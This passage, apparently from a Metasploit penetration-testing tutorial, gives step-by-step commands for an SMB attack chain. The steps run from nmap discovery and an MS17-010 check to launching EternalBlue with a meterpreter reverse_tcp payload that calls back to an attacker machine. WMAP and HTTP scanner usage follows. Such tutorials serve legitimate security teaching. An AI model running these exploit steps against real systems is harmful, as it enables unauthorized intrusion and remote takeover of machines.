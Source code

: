 ```bash
vulns;
exit"
```

## Practical Example: SMB Vulnerability Chain

### Step 1: Service Discovery

```bash
db_nmap -p 445 -sV --script smb-os-discovery <target_ip>
```

### Step 2: Vulnerability Verification

```bash
use auxiliary/scanner/smb/smb_ms17_010
set RHOSTS <target_ip>
run

# Output: Host is likely VULNERABLE to MS17-010!
```

### Step 3: Exploit Execution

```bash
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS <target_ip>
set payload windows/x64/meterpreter/reverse_tcp
set LHOST <kali_ip>
exploit

# Successful exploitation provides meterpreter session
```

## Web Application Vulnerability Scanning

### WMAP Plugin Usage

```bash
# Load WMAP plugin
load wmap

# Configure targets
wmap_sites -a <target_ip>
wmap_targets -t http://<target_ip>/
wmap_run -e
```

### Manual Web Service Testing

```bash
# Check for common web vulnerabilities
use auxiliary/scanner/http/http_version
use auxiliary/scanner/http/robots_txt
use auxiliary/scanner/http/dir_scanner
```
